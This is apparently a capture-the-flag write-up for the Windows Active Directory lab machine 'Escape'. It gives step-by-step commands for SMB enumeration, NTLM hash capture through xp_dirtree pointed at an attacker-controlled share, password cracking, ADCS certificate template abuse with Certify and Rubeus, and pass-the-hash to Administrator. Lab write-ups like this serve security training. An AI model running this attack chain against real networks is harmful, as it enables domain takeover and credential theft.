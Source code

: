 # Escape

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 -Pn 10.129.242.117
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-04 06:51 EST
Nmap scan report for 10.129.242.117
Host is up (0.0078s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49689/tcp open  unknown
49690/tcp open  unknown
49710/tcp open  unknown
49714/tcp open  unknown
```

Looks like an AD machine to me. Interestingly, they made port 1433 public facing.&#x20;

### SMB Enum

We can find one share available through `smbmap`:

```
$ smbmap -u 'guest' -p '' -H 10.129.242.117
[+] IP: 10.129.242.117:445      Name: 10.129.242.117                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Public                                                  READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share
```

Before checking this share out, we can enumerate the possible usernames and groups using `enum4linux` with the same credentials. We find the the domain name is called `sequel`.

```
S-1-5-21-4078382237-1492182817-2568127209-500 sequel\Administrator (Local User)              
S-1-5-21-4078382237-1492182817-2568127209-501 sequel\Guest (Local User)
S-1-5-21-4078382237-1492182817-2568127209-502 sequel\krbtgt (Local User)
S-1-5-21-4078382237-1492182817-2568127209-512 sequel\Domain Admins (Domain Group)
...
```

Checking the share out, we can find that there's one file here:

```
$ smbclient //10.129.242.117/Public -U 'guest'
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 19 06:51:25 2022
  ..                                  D        0  Sat Nov 19 06:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 08:39:43 2022
```

We can download this file and view it.&#x20;

### SQL Server Procedures

This is the file contents:

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

The next page contains a guest login for the SQL server. We also find a user called `brandon.brown`, who is likely some kind of database administrator.&#x20;

<figure><img src="../../../.gitbook/assets/image (7) (5) (3).png" alt=""><figcaption></figcaption></figure>

We can use `mssqlclient.py` to connect and interact with this database:

```
$ impacket-mssqlclient WORKGROUP/PublicUser:GuestUserCantWrite1@10.129.242.117
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL>
```

I was able to confirm that `xp_dirtree` is working on this SQL database, thus allowing us to capture hashes either via `smbserver.py` or `responder`.

Just run this within the database:

```
EXEC xp_dirtree '\\10.10.14.7\share'
```

Afterwards, we would capture an NTLM hash.

<figure><img src="../../../.gitbook/assets/image (8) (1) (9).png" alt=""><figcaption></figcaption></figure>

We can try to crack this hash via whatever method available to find this password:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REGGIE1234ronnie (sql_svc)
```

With these credentials, I was able to login via `evil-winrm`.

<figure><img src="../../../.gitbook/assets/image (24) (6).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SQL Logs

This user did not have the flag or any other local privileges. However, since we are an SQL user, we can perhaps read some sensitive SQL files.

Within the `C:\SQLServer\Logs` file, we can find an ERRORLOG file:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (5).png" alt=""><figcaption></figcaption></figure>

Within that file, we can find some credentials:

```
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
```

With these credentials, we can login as `ryan.cooper`.

<figure><img src="../../../.gitbook/assets/image (4) (9).png" alt=""><figcaption></figcaption></figure>

We can grab the user flag now.

### Certify.exe --> Admin NTLM

I ran a winPEAS scan to enumerate for me. This scan found some certificates on the machine that could potentially be the PE vector.

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

We can use `certify.exe` to find out if this is vulnerable. Using `certify.exe find /vulnerable`, we can find one certificate:

<figure><img src="../../../.gitbook/assets/image (3) (2) (2) (2).png" alt=""><figcaption></figcaption></figure>

We can then request for this certificate using this command:

```
.\certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```

This would output an RSA key and a certificate:

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can simply use `openssl` to convert this output into a .pfx file:

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Then, transfer the pfx file and `rubeus.exe` to the machine. We can use `asktgt` with the certificate.

<figure><img src="../../../.gitbook/assets/image (42) (4).png" alt=""><figcaption></figcaption></figure>

Now that we have confirmed this works, we can append `/getcredentials` to the end of the Rubeus command.

<figure><img src="../../../.gitbook/assets/image (21) (5).png" alt=""><figcaption></figcaption></figure>

Then, just pass the hash!

<figure><img src="../../../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

